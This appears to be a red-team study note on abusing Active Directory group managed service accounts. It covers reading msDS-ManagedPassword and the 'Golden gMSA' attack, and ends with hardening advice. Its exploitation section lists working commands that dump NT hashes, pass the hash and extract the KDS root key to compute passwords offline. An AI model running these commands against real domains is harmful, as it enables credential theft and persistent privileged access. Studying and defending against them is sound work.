

# 11 - Reading gMSA and dMSA Passwords (and Golden gMSA)

## 1. Executive Summary

Group/Delegated Managed Service Accounts (gMSA/dMSA) have **128-character passwords AD manages automatically** — great hygiene, but the password blob (`msDS-ManagedPassword`) is **readable by the principals listed in `msDS-GroupMSAMembership`**. If you compromise such a principal (or hold read rights), you can **compute the current gMSA password/NT hash** and authenticate as that service account — which is often privileged. Worse, the password is derived from the domain's **KDS root key**; an attacker who reads the **KDS root key** (Domain/Enterprise Admin, or backup) can compute **any gMSA password offline, forever** — the **"Golden gMSA"** attack, a stealthy persistence primitive.

## 2. Concept Overview

A gMSA password = `KDF(KDS root key, account SID, time/epoch)`. The DC computes it on demand; authorized readers fetch `msDS-ManagedPassword`. **dMSA** (Server 2025) is the successor with migration features (see [[12 - BadSuccessor dMSA Migration Abuse]]). Knowing the KDS root key + the account's metadata = compute the password without querying the DC = Golden gMSA (survives password rotation since you can recompute).

## 3. Enumeration

```bash
# Find gMSAs and who can read them
Get-ADServiceAccount -Filter * -Properties msDS-GroupMSAMembership, PrincipalsAllowedToRetrieveManagedPassword
crackmapexec ldap <dc> -u user -p pw --gmsa
bloodhound: "ReadGMSAPassword" edge
```

## 4. Exploitation

```bash
# Read current gMSA password → NT hash (as an authorized member)
gMSADumper.py -u user -p pw -d domain                      # prints NTLM hash
crackmapexec ldap <dc> -u user -p pw --gmsa                # same
# then authenticate
crackmapexec smb <target> -u 'gmsa$' -H <nthash>

# Golden gMSA — with KDS root key (needs DA/backup or read of KDS container)
GoldenGMSA.exe kdsinfo                                     # dump KDS root key(s)
GoldenGMSA.exe compute --sid <gmsa-sid> --kdskey <key>    # offline password, any time
```

## 5. Mermaid Attack Flow



## 6. Persistence
- **Golden gMSA**: KDS root key never rotates by default → recompute gMSA passwords indefinitely (top-tier stealth persistence).

## 7. Post-Exploitation / Data Access
- gMSA accounts frequently run privileged services (SQL, ADFS, Exchange, AADConnect) → high-value access + onward creds.

## 8. Defense & Hardening
1. Tightly scope `PrincipalsAllowedToRetrieveManagedPassword`/`msDS-GroupMSAMembership` (only the intended hosts); audit BloodHound ReadGMSAPassword edges.
2. Protect the **KDS root key** as Tier-0 (its read = Golden gMSA); monitor access to the Master Root Keys container; treat DC backups as Tier-0.
3. Monitor gMSA logons from unexpected hosts; prefer least-privilege for service accounts.

## 9. Chaining & Related Notes
- Successor/migration abuse: **[[12 - BadSuccessor dMSA Migration Abuse]]**. Service-account creds feed **[[09 - Constrained Delegation Abuse]]**.
- Often follows **[[15 - DCSync Attack]]** (A-36) for KDS key; cousin of **[[04 - Kerberoasting]]** (A-36) for service-account compromise.

## 10. Tools
`gMSADumper.py`, `crackmapexec --gmsa`, `GoldenGMSA`, `bloodhound`, `Rubeus`.
